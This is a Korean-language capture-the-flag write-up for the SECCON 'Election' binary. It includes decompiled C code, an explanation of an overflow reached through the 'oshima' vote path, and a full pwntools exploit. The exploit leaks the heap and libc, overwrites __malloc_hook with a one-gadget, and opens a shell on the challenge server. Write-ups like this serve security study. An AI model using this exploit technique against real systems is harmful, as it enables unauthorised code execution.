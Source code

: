 Election 200 (Solver : 54)
=============

### 1. Introduction

| RELRO      | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE     |
|------------|--------------|------------|--------|----------|------------|----------|
| Full RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | election | 

x64 바이너리이며 취약점은 쉬우나 leak이 힘들었다.

### 2. Vulnerability
```c
unsigned __int64 vote()
{
  const char *v0; // rsi
  const char **i; // [rsp+8h] [rbp-48h]
  char s1; // [rsp+10h] [rbp-40h]
  __int64 v4; // [rsp+30h] [rbp-20h]
  char v5; // [rsp+38h] [rbp-18h]
  unsigned __int64 v6; // [rsp+48h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = 1;
  if ( (unsigned int)lv <= 2 )
  {
    lv = 2;
    printf("Show candidates? (Y/n) ");
    getnline(&s1, 32LL);
    v0 = "n";
    if ( strcasecmp(&s1, "n") )
    {
      puts("Candidates:");
      for ( i = (const char **)list; i; i = (const char **)i[1] )
      {
        v0 = *i;
        printf("* %s\n", *i);
      }
    }
    printf("Enter the name of the candidate.\n>> ", v0);
    getnline(&s1, 32LL);
    if ( !strcasecmp(&s1, "oshima") )
    {
      v4 = find_list("ojima", "oshima");
      if ( v4 )
      {
        printf("I'm not 'Oshima', but 'Ojima'!\nWould you modify the name and re-vote?\n>> ");
        getnline(&s1, 48LL);
        if ( !strcasecmp(&s1, "yes") )
          *(_DWORD *)(v4 + 16) += v5;
      }
    }
    else
    {
      v4 = find_list(&s1, "oshima");
      if ( v4 )
      {
        *(_DWORD *)(v4 + 16) += v5;
      }
      else
      {
        printf("'%s' is invalid vote :(\n", &s1);
        ++inv_votes;
      }
    }
  }
  else
  {
    puts("The voting has already closed.");
  }
  return __readfsqword(0x28u) ^ v6;
}
```
위 소스에서 oshima를 입력할 때 bof가 발생하여 v4와 v5값을 덮을 수 있다. 즉 원하는곳에 1바이트를 쓰는것이 가능하다.

### 3. Exploit

처음 생각한 솔루션은 candidate list의 pointer를 덮어서 leak을 하고 힙 내용을 잘 맞춰줘서 한번더 bof를 이용해 malloc_hook에 oneshot을 쓰려했다. 하지만 널바이트가 존재하면 입력을 그만받기때문에 한번 릭을 하고서 bof를 다시 발생시키기 어려웠다.

그래서 leak을 불러오는 chunk의 마지막 1바이트를 "\x00"로 설정해서 가장 마지막에 있는 청크를 불러와 1씩 더해줘서 heap을 leak했다. heap leak이 성공하면 그걸로 libc를 leak malloc_hook에다가 oneshot을 넣어주면 exploit할 수 있다.
```python
from ntpwn import *

#s = process('./election')
s = remote('election.pwn.seccon.jp',28349)
e = ELF('./election')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

'''
b = BP(s)
b.bp('tracemalloc on')
b.bp64(0xba1)
b.bp('c')
b.done()
'''

prompt = '>>'
lv = 0x602010

def stand(name):
	s.sendlineafter(prompt,'1')
	s.sendlineafter(prompt,name)

def vote(yn,candidate):
	s.sendlineafter(prompt,'2')
	s.sendlineafter(' (Y/n) ',yn)
	s.sendlineafter(prompt,candidate)

def result():
	s.sendlineafter(prompt,'3')

stand(p64(e.got['puts']))

# Tatsumi -> name_pointer + 0x20
for i in range(0x20):
	vote('Y','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00" +  "A" * 0x18)

# Leak Heap
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
heap_base = u32(s.recv(4)) - 0x70

# 4byte -> 3byte
if heap_base % 0xa000000 < 0x1000000 :
	heap_base = heap_base % 0xa000000

log.info("HEAP BASE : " + hex(heap_base))

s.sendafter(prompt,'\x0a')

# Shinonome -> next_pointer + 0xb0 (puts_got)
for i in range(4):
	vote('n','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(heap_base+0x58-0x10)+"\x38")

# Leak Libc
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['puts']
malloc_hook = libc_base + l.symbols['__malloc_hook']
oneshot = libc_base + 0xf0274

log.info("LIBC BASE : " + hex(libc_base))
log.info("ONESHOT : " + hex(oneshot))

s.sendafter(prompt,'\x0a')

# __malloc_hook -> oneshot
for i in range(6):
	vote('n','oshima')

	one_byte = u32(p64(oneshot)[i] + "\x00" * 3)

	if one_byte > 128:
		print "NoNo!!"
		exit()

	payload = "yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(malloc_hook-0x10+i) + p32(one_byte)

	s.sendafter(prompt,payload)

# lv -> 1
vote('n','oshima')
s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(lv-0x10)+"\xff")

pause()
# malloc triger
s.sendlineafter(prompt,'1')
s.sendlineafter(prompt,'NEXTLINE')

s.interactive()
```

### 3. Exploit
![ex_screenshot](./flag/flag2.png)
